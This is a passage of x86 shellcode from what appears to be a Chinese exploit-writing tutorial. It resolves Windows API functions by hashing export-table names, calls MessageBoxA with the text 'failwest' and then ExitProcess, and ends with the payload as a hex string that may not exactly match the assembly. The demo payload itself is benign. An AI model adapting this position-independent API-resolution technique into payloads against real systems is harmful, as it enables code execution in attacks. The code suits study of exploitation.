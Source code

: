 ```c
    find_functions:
    pushad;					//保护寄存器
    mov eax,[ebp+0x3c];		//PE头
    mov ecx,[ebp+eax+0x78];	//导出表的指针偏移
    add ecx,ebp;			//ecx = 导出表的指针地址偏移 + dll基址
    mov ebx,[ecx+0x20];		//ebx = 导出表的函数名字列表偏移
    add ebx,ebp;			//ebx = 导出表的函数名字列表偏移 + dll基址
    xor edi,edi;			
    
    next_function_loop:
    inc edi;
    mov esi,[ebx+edi*4];	//从函数名字列表读取具体函数名字的偏移
   	add esi,ebp;			//esi = 具体函数名字的偏移 + dll基址
    cdq;    				//扩充
    
    hash_loop:
    movsx eax,byte ptr[esi];
    cmp al,ah;
    jz compare_hash;
    ror edx,7;
    add edx,eax;
    inc esi;
    jmp hash_loop;
    
    compare_hash:
    cmp edx,[esp+0x1c];
    jnz next_function_loop;
    mov ebx,[ecx+0x24];
    add ebx,ebp;
    mov di,[ebx+2*edi];
    mov ebx,[ecx+0x1C];
	add ebx,ebp;
	add ebp,[ebx+4*edi];
	xchg eax,ebp;
	pop edi;
	stosd;
	push edi; 
	popad;
	cmp eax,0x1e380a6a;
	jne find_lib_functions;
        
    function_call:
	xor ebx,ebx;
	push ebx; //cut string
	push 0x74736577;
	push 0x6c696166; //push failwest
	mov eax,esp;
	push ebx;
	push eax;
	push eax;
	push ebx;
	call [edi-0x04]; //call MessageBoxA
	push ebx;
	call [edi-0x08]; //call ExitProcess
	nop;
	nop;
	nop;
	nop;
}
//90909090FC686A0A381E686389D14F683274910C8BF48D7EF433DBB7042BE366BB33325368757365725433D2648B5A308B4B0C8B491C8B098B6908AD3D6A0A381E750595FF57F895608B453C8B4C057803CD8B592003DD33FF478B34BB03F5990FBE063AC47408C1CA0703D046EBF13B54241C75E48B592403DD668B3C7B8B591C03DD032CBB955FAB57613D6A0A381E75A933DB53683536373868313233458BC453505053FF57FC53FF57F890909090
```